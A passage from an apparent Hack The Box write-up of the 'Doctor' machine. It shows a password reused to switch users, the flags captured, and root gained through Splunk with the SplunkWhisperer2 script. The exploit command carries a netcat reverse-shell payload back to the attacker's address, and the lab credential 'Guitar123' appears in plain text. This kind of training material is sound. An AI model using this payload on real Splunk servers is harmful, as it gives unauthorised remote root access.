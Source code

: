 We found a password "Guitar123" let's use this password for the user shaun.

```shell
web@doctor:/var/log$ su shaun
Password: 
shaun@doctor:/var/log$ id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
shaun@doctor:/var/log$ 
shaun@doctor:/var/log$ cd /home/shaun
shaun@doctor:~$ ls
user.txt
shaun@doctor:~$ cat user.txt
63918588bf664df1ff018a0dd5d9d436
shaun@doctor:~$ 
```
### Privilege Escalation

Not able to find any privilege escalation vectors, we can try logging in the splunk web app on port 8089 with the credentials
shaun:Guitar123

We are able to login, but now we have to find how can we do privilege escalation via splunk.

On googling splunk privilege escalation, we get the following exploit.
(https://github.com/cnotin/SplunkWhisperer2)[https://github.com/cnotin/SplunkWhisperer2]

```shell
┌─[sid@parrot]─[~/Documents/flags/hackthebox/linux-machines/doctor/SplunkWhisperer2/PySplunkWhisperer2]                         
└──╼ $python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.25 --lport 2222 --username shaun --password Guitar123 --payload 'nc.traditional -e /bin/bash 10.10.14.25 4444'
```

<video width='1024' height='768' controls autoplay> 
    <source src="/assets/img/Posts/Doctor/pwned.mkv" type='video/x-matroska'>
</video>

```shell
root@doctor:/# id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cd /root
ls
ls
root.txt
cat root.txt
cat root.txt
bee050ee1540e4ba11809239374681b4
root@doctor:/root# 
```

And that was the box, if you have any doubts feel free to reach out to me on my social media.
